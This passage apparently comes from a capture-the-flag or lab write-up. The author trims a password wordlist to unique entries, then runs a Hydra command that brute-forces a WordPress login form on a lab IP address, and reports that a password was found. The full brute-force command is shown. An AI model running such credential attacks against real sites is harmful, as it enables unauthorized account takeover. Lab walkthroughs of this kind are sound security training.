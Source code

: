 ![Untitled](images/Untitled%2036.png)

The original file had 858160 lines, and the unique values file only 11451 lines... let’s try again!

`hydra -l <FOUND USERNAME HERE> -P /root/unique.dic 10.10.104.6 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR" -V`

![Untitled](images/Untitled%2037.png)

Hydra found a password for the username, let’s try to log in with these credentials:
